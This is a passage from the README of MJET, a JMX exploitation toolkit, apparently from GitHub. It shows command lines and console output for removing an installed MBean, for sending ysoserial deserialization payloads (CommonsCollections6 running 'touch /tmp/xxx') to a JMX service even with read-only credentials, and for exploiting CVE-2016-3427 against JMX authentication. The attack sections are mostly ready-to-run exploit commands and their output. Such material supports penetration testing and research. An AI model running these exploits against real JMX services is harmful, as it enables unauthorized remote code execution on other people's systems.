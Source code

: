 ```
h0ng10@rocksteady ~/w/mjet> jython mjet.py 10.165.188.23 2222 uninstall

MJET - MOGWAI LABS JMX Exploitation Toolkit
===========================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://10.165.188.23:2222/jmxrmi
[+] Connected: rmi://10.165.188.1  8
[+] MBean correctly uninstalled
[+] Done

```

### Exploit Java deserialization with ysoserial

Exploit Java deserialization with ysoserial on target:
The file ysoserial.jar must be present in the MJET directory.
You can select any ysoserial payload as you like, similar to the original ysoserial calls.

This attack even works if JMX authentication is enabled and the user has "readonly" permissions.

```
h0ng10@rocksteady ~/w/mjet> jython mjet.py --jmxrole user --jmxpassword userpassword 10.165.188.23 2222 deserialize CommonsCollections6 "touch /tmp/xxx"

MJET - MOGWAI LABS JMX Exploitation Toolkit
===========================================
[+] Added ysoserial API capacities
[+] Connecting to: service:jmx:rmi:///jndi/rmi://10.165.188.23:2222/jmxrmi
[+] Using credentials: user / userpassword
[+] Connected: rmi://10.165.188.1 user 21
[+] Loaded sun.management.ManagementFactoryHelper$PlatformLoggingImpl
[+] Passing ysoserial object as parameter to getLoggerLevel(String loglevel)
[+] Got an access denied exception - this is expected

[+] Done

```

### Exploit CVE-2016-3427: JMX authentication with Java deserialization

Exploit CVE-2016-3427 with ysoserial:
The file ysoserial.jar must be present in the MJET/jar directory.
You can select any ysoserial payload as you like, similar to the original ysoserial calls.

```bash
$ java -jar jython.jar mjet.py 127.0.0.1 9999 cve-2016-3427 CommonsCollections6 "touch /tmp/xxx"

MJET - MOGWAI LABS JMX Exploitation Toolkit
===========================================
[+] Added ysoserial API capacities
[+] Using JMX RMI
[+] Connecting to: service:jmx:rmi:///jndi/rmi://127.0.0.1:9999/jmxrmi
[+] Object was deserialized, target could be vulnerable
[?]: Returned error:
(<type 'java.lang.SecurityException'>, java.lang.SecurityException: Authentication failed! Credentials should be String[] instead of java.util.HashSet, <traceback object at 0x2>)
[+] Done
```
